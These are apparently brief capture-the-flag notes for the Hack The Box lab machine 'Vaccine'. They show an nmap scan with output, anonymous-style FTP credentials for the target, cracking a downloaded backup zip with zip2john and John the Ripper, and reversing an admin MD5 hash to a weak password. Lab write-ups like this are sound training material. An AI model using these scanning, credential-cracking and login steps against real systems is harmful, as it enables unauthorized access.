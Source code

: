 inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c

# Vaccine

## nmap

sudo nmap -sC -sV -A 10.10.10.46

Nmap scan report for 10.10.10.46
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   244.85 ms 10.10.14.1
2   244.90 ms 10.10.10.46

## Need to install ftp

ftp 10.10.10.46
username: ftpuser
password: mc@F1l3ZilL4

get the backup.zip

## Use zip hash to crack

zip2john backup.zip > backup.hash
john backup.hash --show (741852963)
unzip backup.zip in this password

## Try login [index.php](./ftp/backup/index.php)

username: admin
password (md5 reverse): 2cb42f8734ea607eefed3b70af13bbd3 ( qwerty789)


